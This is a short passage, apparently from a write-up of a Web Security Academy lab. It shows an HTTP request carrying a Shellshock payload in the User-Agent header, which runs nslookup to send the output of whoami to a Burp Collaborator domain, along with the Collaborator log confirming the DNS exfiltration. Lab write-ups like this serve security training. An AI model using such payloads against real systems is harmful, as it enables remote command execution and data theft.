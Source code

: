 exploit (Send to Intruder)

```http
GET /product?productId=1 HTTP/1.1
Host: 0a3800230347e306c03767cb00030089.web-security-academy.net
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).i8rztvkx4dnhbbhnle6bi0zxyo4fs4.burpcollaborator.net
Referer: http://192.168.0.1:8080
```

Burp Collaborator Client

```
The Collaborator server received a DNS lookup of type A: peter-l****E.i8rztvkx4dnhbbhnle6bi0zxyo4fs4.burpcollaborator.net.
```

